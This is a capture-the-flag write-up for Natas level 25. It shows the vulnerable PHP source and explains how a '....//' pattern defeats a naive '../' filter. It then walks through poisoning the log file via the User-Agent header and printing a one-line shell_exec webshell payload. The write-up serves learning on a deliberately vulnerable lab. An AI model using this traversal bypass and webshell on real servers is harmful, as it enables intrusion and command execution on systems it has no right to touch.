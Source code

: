 # Natas
> Level : Natas Level 25<br/>
> Solved : 28th July 2021<br/>
> Remarks : Local File Inclusion + code Execution<br/>
<br/>

## Quest
We are presented with a webpage containing a badass Quote.

![](./images/Level25.png)

Backend Code for this page

```php
<?php
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
    
function listFiles($path){
    $listoffiles=array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[]=$file;
    
    closedir($handle);
    return $listoffiles;
} 

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

## Solution

Lets shift focus from awesomeness of the presented quote to finding password for the next Level.

Below is the Breakdown of relevant functions in Backend code.

  - `setLanguage()`
        This function checks if `lang` parameter exists in our request and then includes that file using `safeinclude()`.
        If not present, default file to include is `language/en`
        
  - `safeinclude()`
        * checks for Directory Traversal attacks, it finds and removes `../` with empty string.
        * It also exits, when attempt is made to retrieve password file for next level (`/etc/natas_webpass/natas26`)
        * if above two checks are passed, it includes the file

  - `logRequest()`
        * This function logs error when `safeinclude` functions finds attack attempts
        * Notice that it directly embeds the clients `USER_AGENT` string in the log file. This can come handy later.
        * We have path of log file as `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`


Lets get to work now.

First i tried with the usual directory traversals and got no luck (this was expected)

![](./images/Level25_solution.png)

After a while it turned to my local machine to test various PHP functions, below is the session log

First i wanted to see how `strstr` function works. `strstr` function finds first occurence of a string and returns the whole string starting from that occurence

```php
echo strstr('hello/../../../etc/passwd/../', '../');   # Output : ../../../etc/passwd/../
```

Next, lets see `str_replace` . It Replaces all occurrences of the search string with the replacement string.
```php
echo str_replace('../', '', '../../../../etc/passwd');  # Output : etc/passwd
```

Then i looked at if somehow i can bypass these functions, and it turns out that yes, it could be done.

See Below session

```php
# I tried different things to bypass str_relace functions and finally came up with this payload
echo str_replace('../', '', '....//....//....//....//etc/passwd');  # Output : ../../../../etc/passwd
```

So now, after `str_replace()` function runs, we can still slip in `../` characters and do Directory Traversal attack.

Below, we use this to see a file that we know exists -> `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`

![](./images/Level25.1_solution.png)

Above we have successfully conducted Directory Traversal attack, but still can't display password containing file `/etc/natas_webpass/natas26` becuase of the code logic.

We will now poison the log file with our webshell using the `User-Agent` header (handy!) and see if this works.

Webshell payload:
```php
<?php echo '<pre>' . shell_exec($_GET[ 'cmd']) . '</pre>';?>
```

![](./images/Level25.2_solution.png)


Now we have command execution, lets reveal the password for next Level

![](./images/Level25.3_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - 
  - 

<br/>
This one was satisfying to do

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
